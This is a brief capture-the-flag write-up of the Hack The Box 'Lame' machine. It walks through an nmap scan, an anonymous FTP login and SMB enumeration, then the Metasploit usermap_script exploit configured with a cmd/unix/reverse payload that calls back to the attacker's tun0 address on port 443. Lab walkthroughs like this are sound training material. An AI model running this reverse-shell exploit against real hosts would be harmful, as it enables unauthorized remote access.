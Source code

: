 # Lame



<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

### Recon

How many of the nmap top 1000 TCP ports are open on the remote host?

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>4 Ports Open</p></figcaption></figure>

i will see the port open FTP - 21 with \
login Anonymous \
and \
Password Anonymous

```bash
ftp 10.10.10.3
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

but can't expliot ftp  come i will try expliot using smb

{% hint style="success" %}
With Passweord Protected OFF
{% endhint %}

```
smbclient -L 10.10.10.3
```

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

```bash
exploit/multi/samba/usermap_script
set payload cmd/unix/reverse
set lhost tun0
set lport 443
```

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Root Flag

<figure><img src="../../../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

User Flag

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Exploits Used

**msfconsole**

```
exploit/multi/samba/usermap_script
```

### Tools Used

* Nmap
* smbclient
* nc

